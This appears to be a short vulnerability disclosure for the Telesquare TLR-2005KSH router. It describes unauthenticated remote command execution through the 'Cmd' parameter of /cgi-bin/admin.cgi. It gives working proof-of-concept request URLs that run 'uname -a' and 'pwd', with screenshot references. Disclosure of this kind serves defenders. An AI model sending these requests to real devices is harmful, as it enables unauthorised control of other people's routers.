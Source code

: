 # Telesquare TLR-2005KSH The router has an unauthorized remote command execution vulnerability

## Vulnerability Details：

By inputting the following payload to access vulnerable devices, an attacker can exploit this vulnerability to execute system commands unauthorized through the 'Cmd' parameter



/cgi-bin/admin.cgi?Command=sysCommand&Cmd=uname%20-a

![1734088238407](https://raw.githubusercontent.com/kklzzcun/route/main/assets/1734088238407.jpg)

/cgi-bin/admin.cgi?Command=sysCommand&Cmd=pwd

![1734088373076](C:\Users\zzcun\Desktop\TLR-2005KSH\assets\1734088373076.jpg)

This vulnerability affects known product versions: 2.6.36 and later.

